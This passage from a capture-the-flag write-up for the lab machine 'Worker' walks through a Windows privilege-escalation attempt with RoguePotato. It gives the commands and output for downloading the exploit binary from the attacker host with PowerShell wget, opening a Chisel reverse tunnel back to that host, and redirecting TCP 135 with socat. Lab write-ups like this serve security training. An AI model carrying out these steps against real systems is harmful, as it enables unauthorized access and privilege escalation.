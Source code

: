 ![](/img/image-20210129110002264.png)

Either way, RoguePotato is able to get the request to the Fake OXID
Resolver on TCP 135.

### Initial Attempt

I'll grab a copy of the release binary from
[GitHub](https://github.com/antonioCoco/RoguePotato/releases/download/1.0/RoguePotato.zip),
and upload it to Worker using a local Python webserver and PowerShell:



    c:\ProgramData>powershell -c wget http://10.10.14.24/RoguePotato.exe -outfile RoguePotato.exe



There's a problem here. The firewall is blocking all inbound tcp ports
except for the three identified during the initial `nmap`. RoguePotato
needs to have a listening port such that the connection to TCP 135 on my
host is tunneled back to the target host on that port.

### Tunnel

Rather than mess with the Fake OXID exe, I'll create the tunnel myself
with [Chisel](https://github.com/jpillora/chisel). I'll start the server
locally, and then upload the exe to Worker and connect as a client:



    c:\ProgramData>.\c client 10.10.14.24:8000 R:9999:localhost:9999
    .\c client 10.10.14.24:8000 R:9999:localhost:9999
    2020/08/23 13:31:41 client: Connecting to ws://10.10.14.24:8000
    2020/08/23 13:31:41 client: Fingerprint 13:b9:97:ca:c7:6e:ae:5d:cd:b6:f1:bf:3c:d3:c7:ec
    2020/08/23 13:31:41 client: Connected (Latency 1.0691ms)



The server gets the connection:



    root@kali# ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
    2020/08/23 07:27:53 server: Reverse tunnelling enabled
    2020/08/23 07:27:53 server: Fingerprint 13:b9:97:ca:c7:6e:ae:5d:cd:b6:f1:bf:3c:d3:c7:ec
    2020/08/23 07:27:53 server: Listening on 0.0.0.0:8000...
    m2020/08/23 07:29:58 server: proxy#1:R:0.0.0.0:9999=>localhost:9999: Listening



Now on my Kali box there's a listener on 9999 that will forward to 9999
on Worker.

I'll create a `socat` listener that will forward incoming on TCP 135 to
localhost 9999, which will be picked up by the `chisel` tunnel and sent
back to 9999 on Worker:



    root@kali# socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999


